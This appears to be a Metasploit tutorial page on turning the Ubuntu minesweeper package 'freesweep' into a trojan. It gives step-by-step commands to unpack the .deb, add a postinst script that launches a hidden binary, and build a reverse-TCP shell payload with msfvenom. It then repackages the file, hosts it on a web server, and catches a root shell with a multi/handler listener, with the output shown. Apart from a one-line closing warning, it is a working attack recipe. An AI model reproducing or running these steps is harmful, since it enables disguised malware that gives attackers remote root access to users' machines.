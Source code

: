 ```yaml
---
draft: false
title: MSF Binary Linux Trojan
linkTitle: MSF Binary Linux Trojan
translationKey: msf-binary-linux-trojan
weight: 210
date: 2017-05-20T13:12:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: We can create a Debian package that contains a payload using Metasploit Framework.
url: /msf-binary-linux-trojan/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

As an example of client-side attacks, in our previous article we created an executable file with the extension `.exe` for the Windows platform. We can also create files in the click-and-run file types used by Linux operating systems. In this article, we will create a file with the extension `.deb`.

Creating this file targeting the Ubuntu operating system may seem a bit complicated at first, but it will be easier to understand if you continue by examining the steps one by one.

First, we need a program to place a payload in. Let's use the "Mine Sweeper" program as an example.

## Let's download the package

When we download the package with the `--download-only` parameter, it will not be installed on our operating system. Then we will move the package we downloaded to the `/tmp/evil` folder that we will create to work on it.

```bash
root@kali:~# apt-get --download-only install freesweep
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# mkdir /tmp/evil
root@kali:~# mv /var/cache/apt/archives/freesweep_0.90-1_i386.deb /tmp/evil
root@kali:~# cd /tmp/evil/
root@kali:/tmp/evil#
```

Now we have a Debian package named `freesweep_0.90-1_i386.deb` in the `/tmp/evil` folder. The name and version number of the .deb file you downloaded may be different. You should check its name with the `ls` command and apply it to the commands in the examples accordingly.

## Let's Open the Package

Now we need to open this `.deb` extension package in a similar way to opening a compressed file. We extract this package to the `work` folder in the `/tmp/evil` folder with the following command. Then, we create a folder named `DEBIAN` under the `/tmp/evil/work` folder, where the features we will add will be located.

```bash
root@kali:/tmp/evil# dpkg -x freesweep_0.90-1_i386.deb work
root@kali:/tmp/evil# mkdir work/DEBIAN
```

## Let's create a control file

We create a file named `control` in the Debian folder, paste the following text into it and save it. We check the file content with the `cat control` command as follows.

**control** file content

```bash
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works **in **any visual text display - **in **Linux console, **in **an xterm, and **in
 **most text-based terminals currently **in **use.
```

## let's create a postinst file

We also need another bash script file to run after installation. Again, as above, we create a file named `postinst` in the `DEBIAN` folder. We paste the following lines of code into it.

**postinst** file content

```bash
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores &amp; /usr/games/freesweep &amp;
```

## Let's Create a Payload

Now we can create the file containing the malicious codes. For this, we will use the `linux/x86/shell/reverse_tcp` payload module using the command below. You can specify the variables we gave as `LHOST` and `LPORT` in the command yourself.

```bash
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=192.168.1.101 LPORT=443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 (iteration=0)
x86/shikata_ga_nai chosen with final size 98
Payload size: 98 bytes
Saved as: /tmp/evil/work/usr/games/freesweep_scores
```

## Repackaging

Now, we can make our `postinst` file executable and compile the `.deb` package. We can change the name of the `work.deb` package that will be created as a result of the command to `freesweep.deb` and upload it to the Apache Server folder (`/var/www` or `/var/www/html`). Now our file can be downloaded from the Web server.

```bash
root@kali:/tmp/evil/work/DEBIAN# chmod 755 postinst
root@kali:/tmp/evil/work/DEBIAN# dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `freesweep' in `/tmp/evil/work.deb'.
root@kali:/tmp/evil# mv work.deb freesweep.deb
root@kali:/tmp/evil# cp freesweep.deb /var/www/
```

## Creating a Listener Handler

Now, let's create a listener to listen for connection requests that will come with a click or run. The `LHOST` and `LPORT` values ​​that we will give to the command here must be the same as the values ​​entered when creating the payload.

```bash
root@kali:~# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"
PAYLOAD => linux/x86/shell/reverse_tcp
LHOST => 192.168.1.101
LPORT => 443
> Started reverse handler on 192.168.1.101:443
> Starting the payload handler...
```

## Result

When any user downloads and runs this `freesweep.deb` package that we prepared, our listening `exploit/multi/handler` module will log in to the target computer.

```bash
ubuntu@ubuntu:~$ wget <a href="http://192.168.1.101/freesweep.deb">http://192.168.1.101/freesweep.deb</a>
ubuntu@ubuntu:~$ sudo dpkg -i freesweep.deb

> Sending stage (36 bytes)
> Command shell session 1 opened (192.168.1.101:443 -> 192.168.1.175:1129)

ifconfig
eth1 Link encap:Ethernet HWaddr 00:0C:29:C2:E7:E6
inet addr:192.168.1.175 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:49 errors:0 dropped:0 overruns:0 frame:0
TX packets:51 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:43230 (42.2 KiB) TX bytes:4603 (4.4 KiB)
Interrupt:17 Base address:0x1400
...snip...

hostname
ubuntu
id
uid=0(root) gid=0(root) groups=0(root)
```

## Recommendation

As can be seen, malware is not only specific to Windows. Linux users should also be careful with click-to-run programs. We recommend that you do not install packages from unreliable sources.
